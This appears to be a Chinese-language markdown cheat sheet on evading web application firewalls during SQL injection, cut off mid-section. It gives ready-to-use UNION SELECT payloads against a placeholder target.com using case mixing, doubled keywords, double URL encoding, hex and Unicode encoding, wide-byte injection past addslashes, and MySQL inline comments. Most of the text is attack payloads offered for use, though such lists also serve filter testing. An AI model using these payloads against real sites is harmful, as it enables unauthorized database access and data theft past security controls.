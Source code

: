 ##如何绕过WAF?
###绕过技术小结

1. 绕过大小写过滤
	当我们在目标URL进行SQL注入测试时，可以通过修改注入语句中字母的大小写来触发WAF保护情况。如果WAF使用区分大小写的黑名单，则更改大小写可能会帮我们成功绕过WAF的过滤。

		http://target.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4

2. 关键字替换
	(在关键字中间可插入将会被WAF过滤的字符) – 例如SELECT可插入变成SEL
	正则表达式替换或删除select、union等关键字，且只匹配一次

		http://target.com/index.php?page_id=-15 UNIunionON SELselectECT 1,2,3,4
		同样是很基础的技术，有些时候甚至构造得更复杂：SeLSeselectleCTecT

3. 编码绕过
	+ URL encode  
	普通的URL编码可能无法实现绕过不过，存在某种情况URL编码只进行了一次解码过滤可以用两次编码绕过

			空格变为%20、单引号%27、左括号%28、右括号%29、百分号%25
			page.php?id=1%252f%252a*/UNION%252f%252a/SELECT
			page.php?id=1%2f%2a*/UNION%2f%2a/SELECT 一次解码
			page.php?id=1/**/UNION/*/SELECT   两次解码

			换行符%0a,%0b,%10
	
	+ Hex encode
	
			target.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4…//对单个字符十六进制编码
			SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61)) //对整个字符串编码
			常见的编码当然还有二进制、八进制
	
	+ Unicode encode
	
			?id=10%D6‘%20AND%2201=2%23   //%df绕过addslashes,逃逸'或",%D6同理，双字节绕过（也叫宽字节注入），比如对单引号转义操作变成\'，那么就变成了%D6%5C'，%D6%5C构成了一个款字节即Unicode字节，单引号可以正常使用

			SELECT 'Ä'='A'; #1 //使用的是两种不同编码的字符的比较，它们比较的结果可能是True或者False，关键在于Unicode编码种类繁多，基于黑名单的过滤器无法处理所以情况，从而实现绕过
		
			utf-7的绕过，还有utf-16、utf-32的绕过，后者从成功的实现对google的绕过，有兴趣的朋友可以去了解下
		
			单引号：%u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7
			空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0
			左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8
			右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9

4. 使用注释

	在攻击字符串中插入注释。例如，/*!SELECT*/ 这样WAF可能就会忽略该字符串，但它仍会被传递给目标应用程序并交由mysql数据库处理。/**/在构造的查询语句中插入注释规避对空格的依赖或关键字识别。

		常见的注释符号：//, — , /**/, #, –+,–  -, ;–a
		index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4 //普通注释绕过过滤空格、tab等
		'union%a0select pass from users#  //%0b,%10等换行符
		index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3 //内联
		?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4 //内联版本 

	绕过过滤空格类字符
